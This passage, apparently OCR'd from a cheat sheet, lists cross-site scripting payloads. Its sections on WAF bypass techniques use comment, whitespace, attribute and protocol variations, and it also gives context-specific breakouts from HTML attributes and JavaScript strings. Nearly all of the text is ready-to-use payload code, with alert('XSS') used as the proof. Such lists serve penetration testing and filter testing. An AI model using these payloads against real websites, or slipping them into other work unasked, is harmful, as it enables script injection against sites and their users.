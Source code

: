 ```javascript
<script>parent['alert']('XSS')</script>
```

#### WAF Bypass Techniques
```javascript
// Comment-based bypasses
<script>/**/alert('XSS')</script>
<script>alert/**/('XSS')</script>
<script>alert(/**/'XSS')</script>

// Whitespace variations
<script>alert('XSS')</script>
<script	>alert('XSS')</script>
<script
>alert('XSS')</script>

// Attribute variations
<img/src=x/onerror=alert('XSS')>
<img src="x"onerror="alert('XSS')">
<img src='x'onerror='alert("XSS")'>

// Protocol variations
<iframe src="javascript:alert('XSS')">
<iframe src="data:text/html,<script>alert('XSS')</script>">
<iframe src="vbscript:msgbox('XSS')">
```

### 2. 🎯 Context-Specific Bypasses

#### HTML Attribute Context
```javascript
// Breaking out of attributes
" onmouseover="alert('XSS')
' onmouseover='alert('XSS')
" autofocus onfocus="alert('XSS')
' autofocus onfocus='alert('XSS')

// JavaScript protocol
javascript:alert('XSS')
javascript:void(alert('XSS'))
javascript:void(0);alert('XSS')

// Data URLs
data:text/html,<script>alert('XSS')</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

#### JavaScript String Context
```javascript
// Breaking out of strings
';alert('XSS');//
';alert('XSS');var a='
\';alert(\'XSS\');//
\";alert(\"XSS\");//

// Template literals
${alert('XSS')}
`${alert('XSS')}`

// Function calls
alert('XSS')
eval('alert("XSS")')
setTimeout('alert("XSS")',0)
setInterval('alert("XSS")',1000)
```